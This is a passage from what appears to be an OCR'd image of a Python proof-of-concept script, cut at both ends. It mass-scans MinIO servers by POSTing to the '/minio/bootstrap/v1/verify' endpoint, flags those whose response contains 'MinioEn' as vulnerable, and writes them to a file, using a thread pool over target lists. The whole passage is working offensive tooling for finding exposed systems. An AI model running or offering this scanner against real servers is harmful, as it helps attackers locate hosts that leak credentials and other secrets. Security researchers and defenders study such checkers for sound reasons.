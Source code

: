 ```python
        'https': 'https://127.0.0.1:8080'}

def wirte_targets(vurl, filename):
	with open(filename, "a+") as f:
		f.write(vurl + "\n")

#poc
def check_url(url):
	url=parse.urlparse(url)
	hostname  = url.hostname
	url=url.scheme + '://' + url.netloc
	vulnurl=url + "/minio/bootstrap/v1/verify"
	headers = {
		'User-Agent': get_ua(),
		"host":hostname,
		"Content-Type": "application/x-www-form-urlencoded"
	}
	data=""
	try:
		res = requests.post(vulnurl, verify=False, allow_redirects=False, headers=headers,data=data ,timeout=5)
		if res.status_code == 200 and "MinioEn" in res.text:
			# print(res.text)
			print("\033[32m[+]{} is vulnerable\033[0m".format(url))
			wirte_targets(vulnurl,"vuln.txt")
		else:
			print("\033[34m[-]{} not vulnerable.\033[0m".format(url))
	except Exception as e:
		print("\033[34m[!]{} request false.\033[0m".format(url))
		pass

#多线程
def multithreading(url_list, pools=5):
	works = []
	for i in url_list:
		# works.append((func_params, None))
		works.append(i)
	# print(works)
	pool = threadpool.ThreadPool(pools)
	reqs = threadpool.makeRequests(check_url, works)
	[pool.putRequest(req) for req in reqs]
	pool.wait()


if __name__ == '__main__':
	arg=ArgumentParser(description='check_url By m2')
	arg.add_argument("-u",
						"--url",
						help="Target URL; Example:http://ip:port")
	arg.add_argument("-f",
						"--file",
						help="Target URL; Example:url.txt")
	args=arg.parse_args()
	url=args.url
	filename=args.file
	print("[+]任务开始.....")
	start=time()
	if url != None and filename == None:
		check_url(url)
	elif url == None and filename != None:
		for i in open(filename):
			i=i.replace('\n','')
			url_list.append(i)
```
